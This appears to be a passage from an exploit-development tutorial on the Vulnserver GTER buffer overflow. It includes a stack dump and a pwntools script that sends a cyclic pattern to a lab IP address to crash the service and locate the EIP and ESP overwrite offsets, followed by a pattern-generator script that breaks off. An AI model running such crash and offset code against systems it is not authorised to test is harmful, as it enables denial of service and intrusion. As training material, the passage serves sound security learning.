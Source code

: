 We can see from analyzing the stack that the program received 171 *A*s along with the string ` /.:/` right after the GTER parameter:

~~~
00F4FA58   00038EC0  ASCII "GTER /.:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
~~~

## pwntools FTW
In order to document our exploit and make it reusable we will write it down into a Python script. We will also use the awesome *pwntools* module, although you could also accomplish this task by using the *sockets* module directly.

We first need to cofirm the payload offset that will overwrite EIP.

~~~
from pwn import *

def doCrash(size):
    conn = remote('192.168.0.57', 6666, typ='tcp')
    payload = "GTER /.:/" + cyclic_metasploit(size) + "\r\n"
    print("Sending: {}".format(payload))
    conn.send(payload)
    conn.close()

def getCrashBuffer(offset):
    return cyclic_metasploit_find(offset)

doCrash(1000)
print("EIP is overwritten at offset: {}".format(getCrashBuffer(0x66413066))) #151
print("ESP is overwritten at offset: {}".format(getCrashBuffer(0x32664131))) #155
print("Total buffer lenght: {}".format(getCrashBuffer(0x41376641))) #171
~~~

The *cyclic_metasploit* method generates a [De Bruijn](http://mathworld.wolfram.com/deBruijnSequence.html) sequence used by Metasploit, mona.py, gdb-peda and others. The *cyclic_metasploit_find* method is used to find the offset of a specifc subsequence.

![6]({{ "/assets/media/vulnserver/vulnserver_gter_6.png" | absolute_url }})

![7]({{ "/assets/media/vulnserver/vulnserver_gter_7.png" | absolute_url }})

[JollyFrogs](https://www.jollyfrogs.com/) gently shared his pattern generator/finder script so we don't even need to use pre-built stuff (slightly modified here). Cheers mate!

~~~
from string import *
from termcolor import colored

def pattern_gen(int_length):
    """
    Generate a pattern of a given length up to a maximum
    of 20280 - after this the pattern would repeat
    """
    if int_length >= 20280: error_and_exit("[] Error: Pattern length exceeds max")
    pattern = ""
    for upper in ascii_uppercase:
        for lower in ascii_lowercase:
            for digit in digits:
                if len(pattern) < int_length:
                    pattern += upper+lower+digit
    return pattern

def pattern_search(str_search_pattern):
    """
~~~